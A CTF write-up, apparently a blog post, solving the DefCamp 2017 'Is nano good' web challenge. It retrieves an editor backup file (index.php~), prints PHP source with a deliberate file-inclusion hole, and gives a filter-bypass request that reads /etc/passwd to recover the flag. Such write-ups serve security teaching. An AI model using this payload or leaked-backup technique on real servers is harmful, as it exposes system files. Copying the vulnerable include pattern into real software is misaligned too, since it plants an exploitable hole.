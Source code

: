 ```yaml
---
layout: post
title: DefCamp CTF Qualification 2017 Writeup [Web]
---
```


Is nano good Challenge? (Junior - 2 pts.)



----------


This is our new admin platform interface. Can you test it? 
[Visit website](https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login) 



https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login



from the title of the challenge (nano) , I added ~ to index.php 


https://junior2.dctf-quals-17.def.camp/index.php~ 



i Got the source code of the page 


:

```php

<?php
$page = $_GET["page"];
$type = $_GET["type"];
if (strpos($page, './../') !== false){
	header("Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ");
	die();
}

if (strpos($page, '..././') !== false){
	header("Location: http://leekspin.com/");
	die();
}

if (strpos($page, '%') !== false){
	header("Location: http://www.nyan.cat/");
	die();
}

if (strpos($page, 'fille') !== false){
	header("Location: https://www.youtube.com/watch?v=o1eHKf-dMwo");
	die();
}

if (strpos($page, '/etc/passwd') === 0) {
	header("Location: https://www.youtube.com/watch?v=djV11Xbc914");
	die();
}
# I wonder if I can bypass path traversal restriction by going back and forward within the directorys....
if ($type == ""){
	echo file_get_contents($page.".php");
} else {
	#maybe we need something from the website 
	echo file_get_contents($page); 
}
?>

```



by this source we Got LFI and filtres on $page and conditions , 

/ = //

type = value

 parameters :

https://junior2.dctf-quals-17.def.camp/?type=a&page=//etc//passwd



    DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd: 4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f: c48b33a7972:x:1003:1003::/home/c48b33a7972: c0752d13db4:x:1004:1004::/home/c0752d13db4: 32ff9930a99:x:1005:1005::/home/32ff9930a99: 6c567ea3321:x:1006:1006::/home/6c567ea3321: 13b}:x:1007:1007::/home/13b}: 

flag : 
DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}
